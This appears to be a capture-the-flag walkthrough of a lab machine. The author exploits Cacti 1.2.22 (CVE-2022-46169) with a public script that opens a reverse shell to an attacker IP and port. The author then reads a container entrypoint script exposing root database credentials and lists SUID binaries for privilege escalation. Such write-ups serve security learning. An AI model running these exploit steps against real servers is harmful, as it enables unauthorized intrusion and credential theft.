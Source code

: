 So I searched for "*cacti 1.2.22 exploit*" and found [CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py)

## Exploitation

I executed the script:

```shell
python3 exploit.py -u http://monitorstwo.htb -LHOST=10.10.14.21 -LPORT=666
```

![](Pasted%20image%2020250207175054.png)

> I got a shell :D

## Privilege Escalation (Inside Docker Container)

I found a script called `entripoint.sh` at `/`:

```shell
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

I also know that I'm inside a container because of `.dockerenv`:

```shell
-rwxr-xr-x   1 root root     0 Mar 21  2023 .dockerenv
```

Let's search for files with the SUID bit set:

```shell
find / -perm /4000 2>/dev/null

/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```
